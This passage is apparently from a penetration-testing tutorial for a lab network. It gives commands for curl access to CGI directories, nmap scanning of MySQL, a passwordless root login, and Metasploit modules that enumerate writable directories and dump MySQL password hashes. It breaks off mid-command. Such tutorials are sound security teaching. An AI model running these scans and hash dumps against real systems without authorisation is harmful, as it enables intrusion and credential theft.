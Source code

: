 7. Access CGI directories using curl:
    
8. curl http://192.168.56.106/cgi-bin/ | more
    

### **MySQL Enumeration and Exploitation**

MySQL is a popular database management system. Enumerating MySQL services can reveal valuable information, such as databases and user privileges.

#### _**Scan MySQL Service**_

To scan for open MySQL services and detect versions:

nmap -p3306 -sV 192.168.56.107

#### _**Login to MySQL**_

You can manually log in to MySQL using the following command:

mysql -h 192.168.56.107 -u root

Once logged in, use SQL commands to interact with the database:

- **Show databases**:
    
- show databases;
    
- **Use a specific database**:
    
- use books;
    
- **Query the database**:
    
- select count(*) from authors;
    

#### _**Metasploit for MySQL Enumeration**_

Metasploit offers auxiliary modules for MySQL enumeration:

- **Writable Directories Enumeration**:
    
- msfconsole
    
- use auxiliary/scanner/mysql/mysql_writable_dirs
    
- set dir_list /usr/share/metasploit-framework/data/wordlists/dangerzone_a.txt
    
- setg rhosts 192.168.56.106
    
- set verbose false
    
- run
    
- **MySQL Hash Dump**:
    
- msfconsole
    
- use auxiliary/scanner/mysql/mysql_hashdump
    
- set username root
    
- set
    